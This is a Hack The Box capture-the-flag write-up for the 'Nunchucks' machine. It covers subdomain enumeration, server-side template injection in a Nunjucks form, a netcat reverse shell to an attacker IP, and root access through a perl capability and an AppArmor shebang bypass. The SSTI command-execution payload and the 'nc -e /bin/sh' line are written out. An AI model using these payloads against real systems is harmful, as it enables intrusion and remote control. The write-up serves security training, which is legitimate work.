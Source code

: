 # Nunchucks - Writeup

**Date**: 04/07/2022

**Difficulty**: Easy

**CTF**: [https://app.hackthebox.com/machines/Nunchucks](https://app.hackthebox.com/machines/Nunchucks)

---

Let’s test the connection with the target machine:

![Untitled](images/Untitled.png)

We have received back the ping, so we have connection. Let’s scan the TCP ports of the target machine using nmap:

![Untitled](images/Untitled%201.png)

3 open ports: 22 (ssh), 80 (http), 443 (https). Let’s scan them further:

![Untitled](images/Untitled%202.png)

Apparently the website hosted in the port 80, redirects us to [https://nunchucks.htb/](https://nunchucks.htb/). Also, the ssl certificate and the DNS of the https service also reveals the domain name, so it seems like is applying virtual hosting. Let’s add this domain to the /etc/hosts file:

![Untitled](images/Untitled%203.png)

Let’s inspect the website using whatweb:

![Untitled](images/Untitled%204.png)

At least now it resolves. Let’s see how it looks using the web browser:

![Untitled](images/Untitled%205.png)

Seems like a normal page… Let’s click on the upper left Nunchucks image:

![Untitled](images/Untitled%206.png)

It opens a index.html page that says that the page doesnt exist. Weird.

![Untitled](images/Untitled%207.png)

We also have a signup form

![Untitled](images/Untitled%208.png)

and a login form

![Untitled](images/Untitled%209.png)

Also, the website is setting a cookie called `_csrf` nice name, this kind of cookies are usually used to prevent CSRF attacks.

Let’s start testing the login form agains sqli:

![Untitled](images/Untitled%2010.png)

![Untitled](images/Untitled%2011.png)

Uh… user logins are disabled. Let’s try then to sign up:

![Untitled](images/Untitled%2012.png)

Ooookay… so no login and no signup.

Anyway the form is sending the information. Maybe if we have a valid cookie the system will allow us to log in?

![Untitled](images/Untitled%2013.png)

Let’s take a look to the website again:

![Untitled](images/Untitled%2014.png)

There is a support email in the footer of the website. Let’s note it, maybe it will be useful…

Let’s enumerate the directories of the website:

![Untitled](images/Untitled%2015.png)

Maybe we can look for subdomains:

![Untitled](images/Untitled%2016.png)

wfuzz discovered the `store` subdomain, let’s add it to the /etc/hosts file

![Untitled](images/Untitled%2017.png)

And now let’s visit the subdomain:

![Untitled](images/Untitled%2018.png)

There is nothing else here but a form… Let’s use it:

![Untitled](images/Untitled%2019.png)

Mmmm… it includes the mail that I entered in the webpage. Maybe this page is vulnerable to SSTI? Let’s check it:

![Untitled](images/Untitled%2020.png)

Yep, it is. 

![Untitled](images/Untitled%2021.png)

NUNJUCKS sound pretty similar to Nunchucks, let’s start with this:

`{{range.constructor("return global.process.mainModule.require('child_process').execSync('COMMAND_WE_WANT_TO_EXECUTE')")()}}`

but adding backslashes to escape double quotes and using burpsuite to bypass the email format check:

![Untitled](images/Untitled%2022.png)

Let’s try to see the passwd file:

![Untitled](images/Untitled%2023.png)

![Untitled](images/Untitled%2024.png)

Let’s look inside the home folder of david, we may find ssh credentials or something useful:

![Untitled](images/Untitled%2025.png)

Ok, there is no .ssh folder, but we can see the user.txt flag:

![Untitled](images/Untitled%2026.png)

Ok, we managed to get the user flag, but we have to access to the target machine. Let’s find a way to establish a reverse shell… 

![Untitled](images/Untitled%2027.png)

ok, the target machine has netcat installed, let’s try a simple `nc -e /bin/sh 10.10.10.10 1234`

![Untitled](images/Untitled%2028.png)

Bad Gateway… something doesn’t work… what if we encode the command in base64 and send it this way?

![Untitled](images/Untitled%2029.png)

It worked, nice. Let’s stabilize the tty:

![Untitled](images/Untitled%2030.png)

Ok, now let’s find a way to escalate privileges. Let’s start looking for SUID files:

![Untitled](images/Untitled%2031.png)

Nothing useful. Let’s see if there is any binary with capabilities:

![Untitled](images/Untitled%2032.png)

Uh, perl has a `setsuid` capability… And it appears in GTFO Bins as something we can take advance of to escalate to root:

![Untitled](images/Untitled%2033.png)

![Untitled](images/Untitled%2034.png)

I tried it. I tried a lot of things but nothing happened:

![Untitled](images/Untitled%2035.png)

Apparently I had to discover this:

![Untitled](images/Untitled%2036.png)

![Untitled](images/Untitled%2037.png)

![Untitled](images/Untitled%2038.png)

What is inside /opt/backup.pl?

![Untitled](images/Untitled%2039.png)

Is a perl script. Let’s execute it:

![Untitled](images/Untitled%2040.png)

![Untitled](images/Untitled%2041.png)

![Untitled](images/Untitled%2042.png)

![Untitled](images/Untitled%2043.png)

Nothing useful there. Let’s investigate a little bit more about AppArmor:

Looking for bugs and vulns I found this one: 

[Bug #1911431 "Unable to prevent execution of shebang lines" : Bugs : AppArmor](https://bugs.launchpad.net/apparmor/+bug/1911431)

![Untitled](images/Untitled%2044.png)

it says that if we create a script with the shebang of the restricted application, it will ignore the restrictions. Let’s try it!

![Untitled](images/Untitled%2045.png)

And now, let’s execute it:

![Untitled](images/Untitled%2046.png)

And that’s how we became root. Pretty interesting.
